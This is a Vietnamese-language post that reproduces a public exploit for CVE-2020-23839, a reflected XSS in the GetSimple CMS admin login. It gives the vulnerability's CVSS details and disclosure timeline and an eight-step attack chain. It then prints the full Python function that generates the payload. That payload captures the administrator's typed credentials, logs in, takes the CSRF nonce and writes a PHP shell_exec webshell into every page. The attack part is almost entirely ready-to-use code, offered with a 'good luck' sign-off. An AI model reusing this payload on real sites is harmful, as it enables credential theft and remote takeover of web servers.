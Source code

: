 ```yaml
---
title: CVE-2020-23839 
date: 20/6/2021
layout: single

--- 
```

---


# CVE-2020-23839 | GetSimple CMS v3.3.16 - Reflected XSS to RC
Tác giả: Bobby Cooke (boku) 
[boku7/CVE-2020-23839](https://github.com/boku7/CVE-2020-23839)

+ OWASP Top Ten 2017: A7:2017-Cross-Site Scripting (XSS)
+ CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting') - Type 1: Reflected XSS 
+ CVSS Base Score: 6.1 MEDIUM
+ CVSS v3.1 Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N
+ [https://nvd.nist.gov/vuln/detail/CVE-2020-23839](https://nvd.nist.gov/vuln/detail/CVE-2020-23839)
+ [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-23839](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-23839)

## Phân tích lỗ hổng và công bố đầy đủ vấn đề
+ [GetSimpleCMS/issues/1330](https://github.com/GetSimpleCMS/GetSimpleCMS/issues/1330)


--- 
## Mô tả lỗ hổng bảo mật
+ GetSimple CMS v3.3.16 gặp phải XSS được phản ánh trên Cổng thông tin đăng nhập quản trị viên. Vào ngày 12 tháng 8 năm 2020, nhà cung cấp đã nhận được chi tiết tiết lộ đầy đủ về lỗ hổng bảo mật thông qua email riêng tư. Lỗ hổng bảo mật đã được tiết lộ công khai vào ngày 13 tháng 9 năm 2020 thông qua MITER với việc xuất bản CVE-2020-23839, chứa rất ít chi tiết và không có bằng chứng về khái niệm. Vào ngày 20 tháng 1 năm 2021, việc tiết lộ đầy đủ và phân tích mã đã được tiết lộ công khai dưới vé các vấn đề hoạt động của GetSimple CMS GitHub.

## Mô tả Khai thác
+ Khai thác này tạo ra một trọng tải XSS được phản ánh, ở dạng siêu liên kết, khai thác CVE-2020-23839. Khi Quản trị viên của hệ thống GetSimple CMS truy cập URL này trong trình duyệt của họ và nhập thông tin đăng nhập của họ, một chuỗi tấn công khai thác tinh vi sẽ được khởi chạy, cho phép kẻ tấn công từ xa giành được Quyền thực thi mã từ xa của máy chủ lưu trữ hệ thống GetSimple CMS


## Chuỗi tấn công

1. Thủ thuật của kẻ tấn công GetSimple CMS Admin để truy cập URL được cung cấp từ khai thác này
2. Quản trị viên sau đó nhập thông tin đăng nhập của họ vào cổng đăng nhập GetSimple CMS
3. Tải trọng XSS được phản ánh sẽ kích hoạt Hành động khi Quản trị viên nhấp vào nút Gửi hoặc nhấn Enter
4. Tải trọng XSS thực hiện yêu cầu XHR POST trong nền, đăng nhập trình duyệt vào bảng quản trị GetSimple CMS
5. Sau đó, trọng tải XSS thực hiện yêu cầu XHR GET thứ hai tới admin / edit-theme.php và thu thập Mã thông báo CSRF & chủ đề đã định cấu hình cho các trang web được lưu trữ trên CMS
6. Tải trọng XSS sau đó thực hiện yêu cầu ĐĂNG XHR thứ 3 tới admin / edit-theme.php, đưa một WebShell backdoor PHP vào tất cả các trang của CMS
7. Kẻ khai thác liên tục cố gắng kết nối với trang /index.php công khai của hệ thống CMS GetSimple đích cho đến khi một WebShell được trả về
8. Khi khai thác kết nối với WebShell, một WebShell PHP tương tác xuất hiện trong bảng điều khiển kẻ tấn công


---

[![Language](https://img.shields.io/badge/Lang-python-blue.svg)](https://www.python.org)

## XSS_PAYLOAD

```python
def genXssPayload():
    XSS_PAYLOAD = '/index/javascript:'
    XSS_PAYLOAD += 'var s = decodeURIComponent("%2f");'
    XSS_PAYLOAD += 'var h = "application"+s+"x-www-form-urlencoded";'
    XSS_PAYLOAD += 'var e=function(i){return encodeURIComponent(i);};'
    XSS_PAYLOAD += 'var user = document.forms[0][0].value;'
    XSS_PAYLOAD += 'var pass = document.forms[0][1].value;'
    XSS_PAYLOAD += 'var u1 = s+"admin"+s;'
    XSS_PAYLOAD += 'var u2 = u1+"theme-edit.php";'
    XSS_PAYLOAD += 'var xhr1 = new XMLHttpRequest();'
    XSS_PAYLOAD += 'var xhr2 = new XMLHttpRequest();'
    XSS_PAYLOAD += 'var xhr3 = new XMLHttpRequest();'
    XSS_PAYLOAD += 'xhr1.open("POST",u1,true);'
    XSS_PAYLOAD += 'xhr1.setRequestHeader("Content-Type", h);'
    XSS_PAYLOAD += 'params = "userid="+user+"&pwd="+pass+"&submitted=Login";'
    XSS_PAYLOAD += 'xhr1.onreadystatechange = function(){'
    XSS_PAYLOAD += 'if (xhr1.readyState == 4 && xhr1.status == 200) {'
    XSS_PAYLOAD += 'xhr2.onreadystatechange = function(){'
    XSS_PAYLOAD += 'if (xhr2.readyState == 4 && xhr2.status == 200) {'
    XSS_PAYLOAD += 'r=this.responseXML;'
    XSS_PAYLOAD += 'nVal = r.querySelector("#nonce").value;'
    XSS_PAYLOAD += 'eVal = r.forms[1][2].defaultValue;'
    XSS_PAYLOAD += 'xhr3.open("POST",u2,true);'
    XSS_PAYLOAD += 'xhr3.setRequestHeader("Content-Type", h);'
    XSS_PAYLOAD += 'payload=e("<?php echo shell_exec($_REQUEST[FierceGodKick]) ?>");'
    XSS_PAYLOAD += 'params="nonce="+nVal+"&content="+payload+"&edited_file="+eVal+"&submitsave=Save+Changes";'
    XSS_PAYLOAD += 'xhr3.send(params);'
    XSS_PAYLOAD += '}};'
    XSS_PAYLOAD += 'xhr2.open("GET",u2,true);'
    XSS_PAYLOAD += 'xhr2.responseType="document";'
    XSS_PAYLOAD += 'xhr2.send();'
    XSS_PAYLOAD += '}};'
    XSS_PAYLOAD += 'xhr1.send(params);'
    XSS_PAYLOAD += '%2f%2f'
    return XSS_PAYLOAD
```
![](https://raw.githubusercontent.com/boku7/CVE-2020-23839/main/CVE202023839.png)
---
## Nguồn bài viết và mã khai thác được tác giả Boku7 chia sẻ  

## Chúc May Mắn :D
